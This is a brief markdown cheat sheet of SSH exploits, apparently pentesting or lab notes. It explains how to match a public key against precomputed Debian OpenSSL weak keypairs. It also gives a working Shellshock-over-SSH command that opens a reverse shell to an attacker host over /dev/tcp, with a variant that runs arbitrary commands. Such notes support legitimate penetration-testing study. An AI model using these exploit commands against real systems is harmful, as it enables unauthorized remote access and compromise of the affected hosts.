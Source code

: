## SSH Exploits

### Debian OpenSSL Predictable PRNG

Affects: RSA Keys generated on some Debian 4 systems

1. If an SSL cert was generated on Debian 4, it may be affected by this.

2. Get access to the public key (such as in authorized_keys), fingerprint the public key

   ```bash
   ssh-keygen -l -E md5 -f keyfile
   ```

3. See if this md5 hash matches one of the pre-generated keypairs found on this site:  https://github.com/g0tmi1k/debian-ssh.  1024/DSA and 2048/RSA keys are in ~/opt/tools/openssl-deb4-prng-keys

### Shellshock

In order to exploit shellshock using SSH, these must be true:

1. Obviously, a vulnerable bash shell
2. User must be authenticated using ‘authorization_keys’
3. User must be restricted to run some specific commands.

If these are true, connect with this command to get a reverse shell:

```bash
ssh user@10.10.10.10 '() { :;}; /bin/bash -i >& /dev/tcp/10.10.14.29/8000 0>&1'

# Or execute other commands
ssh user@10.10.10.10 '() { :;}; some_cmd'
```

For more info on how to exploit it, see this page:  https://resources.infosecinstitute.com/practical-shellshock-exploitation-part-2/